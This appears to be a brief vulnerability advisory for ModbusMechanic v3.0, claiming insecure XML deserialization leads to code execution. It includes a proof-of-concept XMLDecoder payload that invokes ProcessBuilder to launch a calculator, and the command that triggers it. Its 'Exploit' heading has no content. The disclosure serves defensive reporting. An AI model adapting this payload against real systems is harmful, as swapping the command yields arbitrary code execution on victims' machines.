

# ModbusMechanic V3.0 Insecure Deserialization & RCE
Affected Version: <= v3.0(latest release version)

Application: [Here](https://github.com/SciFiDryer/ModbusMechanic/releases/tag/v3.0)


## Insecure Deserialization Vulnerability
```php
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
Save the above code as PoC.xml file and put it in the project directory. Use the command "java 
-jar ModbusMechanic.jar -bridge PoC.xml" to start the jar package to trigger the vulnerability.


## Exploit

